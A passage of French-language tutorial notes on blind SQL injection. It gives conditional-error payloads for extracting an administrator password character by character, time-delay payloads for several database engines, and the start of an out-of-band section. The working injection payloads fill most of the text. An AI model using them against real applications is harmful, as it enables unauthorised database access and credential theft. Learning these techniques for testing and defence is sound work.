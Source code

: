 On peut alors créer des payloads telles que :
```SQL
'' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Ou, pour une base de données **Oracle** :
```SQL
'' AND (SELECT CASE WHEN (SUBSTR(password,1,1) > 'm') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'--
```
Selon le type de db (MySQL, Oracle, Microsoft, PostgreSQL), la syntaxe et les erreurs à utilisées changent, cf : https://portswigger.net/web-security/sql-injection/cheat-sheet.

## Time based blind SQLi
Ici, aucune information n'est renvoyé à l'utilisateur. La seule façon de confirmer qu'une injection SQL est possible est en ajoutant un délai conditionnel dans la requête, et si l'injection se passe correctement, la réponse aura 5s de délai par exemple.
Cela fonctionne uniquement si la requête SQL est faite de manière synchrone et donc le serveur attend la fin de la requête SQL avant de répondre.

La démarche est la même que les autres blind SQLi. On peut identifier le point d'entrée avec les concaténation suivante : 
```sql
--MySQL (string concat and logical ops)
'xyz' + sleep(10)
'xyz' and sleep(10)
'xyz' && sleep(10)
'xyz' | sleep(10)

--PostgreSQL (only support string concat)
'xyz' || pg_sleep(10)

--MSQL
'xyz' WAITFOR DELAY '0:0:10'

--Oracle
'xyz' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('RDM',10)

--SQLite
'xyz' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

Ce qui donne ensuite pour **PostgreSQL** :
```SQL
-- Simple
'xyz' || SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END

-- Complet
'xyz' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, 1, 1) > '!') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)
```

## Out-of-band blind SQLi
Imaginons à présent que la requête SQL faite à la db soit asynchrone : le temps de réponse du serveur ne dépend donc plus de temps de traitement de la requête SQL.
On peut tenter d'utiliser un autre canal pour savoir si la SQLi a reussie ou échoué en déclenchant une requête réseau à un composant que l'on contrôle, par exemple une requête DNS.
